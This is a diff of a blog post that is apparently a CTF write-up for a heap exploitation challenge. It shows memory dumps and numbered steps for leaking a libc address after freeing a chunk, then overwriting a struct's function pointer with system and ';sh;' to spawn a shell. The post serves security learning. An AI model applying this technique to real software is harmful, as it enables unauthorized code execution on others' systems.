

Before and after one commit to z3r0s/blog, a Jekyll site: the page built from _posts/2018-11-20-RITCTF.md, in a window 1280 px wide and 1400 px high, scrolled down 9236 px. Shown: the whole window at 98% size, without its empty margins (188-1073 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2018-11-20-RITCTF.md
+++ b/_posts/2018-11-20-RITCTF.md
@@ -286,13 +286,13 @@ After playing around with the program, I concluded that the program code looks s
 {% highlight c %}
 //no texts
 
+#define MAX_PERSON 9
+
 struct Person{
   func ptr PrintPerson
   char*name;
   int age;
 }
-
-#define MAX_PERSON 9
 
 struct Person* person[MAX_PERSON];
 
@@ -365,8 +365,7 @@ There are noticeable vulnerabilities in this program:
 There are various ways to solve this challenge...this is one of the many ways....
 
 
-
-1. Make two people with size of 256
+[1] Make two people with size of 256
 
 ```
 0x81a7ff8: 0x00000000  0x00000000  0x00000000  0x00000011
@@ -381,7 +380,7 @@ There are various ways to solve this challenge...this is one of the many ways...
 0x81a82f8: 0x62626262- - - -
 ```
 
-2. Delete the first person
+[2] Delete the first person
 
 ```
 0x81a81e0: 0xf7fd07b0  0xf7fd07b0  0x00000000  0x00000000
@@ -390,16 +389,16 @@ There are various ways to solve this challenge...this is one of the many ways...
 ```
 - This will result in populating the pointer back to the libc
 
-3. Make a person with size of four and overwrite the last byte of the populated pointer
+[3] Make a person with size of four and overwrite the last byte of the populated pointer
 
 ```
 0x81a81f0: 0xf7fd080a  0xf7fd08b0  0x00000000  0x000000f9
 0x81a8200: 0xf7fd07b0  0xf7fd07b0  0x00000000  0x00000000
 ```
 
-- In this case, I overwrote the pointer with new line
+- In this case, I overwrote the last byte of populated pointer with a new line
 
-4. Calculate the base address of libc and system based on the leak
+[4] Calculate the base address of libc and system based on the leak
 
 ```
 Enter person's index (0-based): 0
@@ -408,7 +407,7 @@ Name:
 Age: 10
 ```
 
-5. Make two more people with size of 256 and free the first new person
+[5] Make two more people with size of 256 and free the first new person
 
 ```
 Your global person array should look like this:
@@ -429,7 +428,7 @@ Your global person array should look like this:
                       .
 ```
 
-6. Edit the freed person (person[2]) and fill up the buffer so that it overwrites the function pointer (PrintPerson) of the next person
+[6] Edit the freed person (person[2]) and fill up the buffer so that it overwrites the function pointer (PrintPerson) of the next person
 
 ```
 0xf748d1e8: 0x00000000  0x00000011  0x3b68733b  0x00000000
@@ -437,9 +436,9 @@ Your global person array should look like this:
                                       system       ;sh;
 ```
 
-7. Profit
+[7] Profit
 
-![hr]({{ site.url}}/images/2018/hr.png)
+![hr]({{ site.url }}/images/2018/hr.png)
 
 Full Exploit:
 
````
Also changed, not shown: other parts of _posts/2018-11-20-RITCTF.md (+3 -3 lines).
